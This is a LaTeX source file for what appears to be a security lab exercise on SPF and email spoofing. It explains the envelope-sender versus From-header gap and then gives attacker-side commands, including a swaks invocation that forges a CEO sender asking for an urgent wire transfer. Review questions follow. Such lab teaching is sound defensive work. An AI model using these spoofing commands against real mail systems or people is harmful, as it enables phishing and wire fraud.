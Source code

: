 \documentclass[11pt]{article}
\begin{document}
SPF checks the \textbf{envelope sender} (the \texttt{MAIL FROM} address
passed during the SMTP transaction), not the \texttt{From:} header that
users see in their email client.
This mismatch is a well-known vector for spoofing.

\subsection{Task 2.1 --- Direct MTA Spoofing with \texttt{swaks}}

Use the pre-built attack script to send a spoofed email.
The script sets the SMTP envelope sender to a legitimate-looking address
while identifying itself with the attacker's HELO domain.

\begin{listing}[H]
\begin{verbatim}
(attacker)$ cd /home/seed/attacks
(attacker)$ bash attack.sh attacker@victim.test bob@victim.test "SPF Test"
\end{verbatim}
\end{listing}

The script performs three operations: it sends the spoofed email
(\texttt{swaks}), captures network traffic (\texttt{tcpdump}), and
prints the SMTP transaction log.

\paragraph{Manual variant.}
You can also craft the attack manually to better understand the envelope
vs.\ header distinction:

\begin{listing}[H]
\begin{verbatim}
(attacker)$ swaks \
    --from    attacker@victim.test \
    --to      bob@victim.test \
    --server  10.9.0.6 --port 25 \
    --helo    attacker.attacker.test \
    --header  "From: CEO <ceo@victim.test>" \
    --header  "Subject: Urgent: Please wire funds" \
    --body    "Please transfer $10,000 immediately."
\end{verbatim}
\end{listing}

\paragraph{Questions.}
\begin{enumerate}[noitemsep]
  \item What does the recipient (\texttt{bob}) see as the
    \texttt{From:} address in his mail client?
  \item What does the SPF check evaluate --- the \texttt{From:} header
    or the SMTP \texttt{MAIL FROM}?
  \item Does the email reach \texttt{bob}'s inbox?
    Examine the \texttt{Received-SPF} header and explain the result.
  \item What configuration change to the victim's SPF record would
    cause this email to be rejected outright?
\end{enumerate}
\end{document}
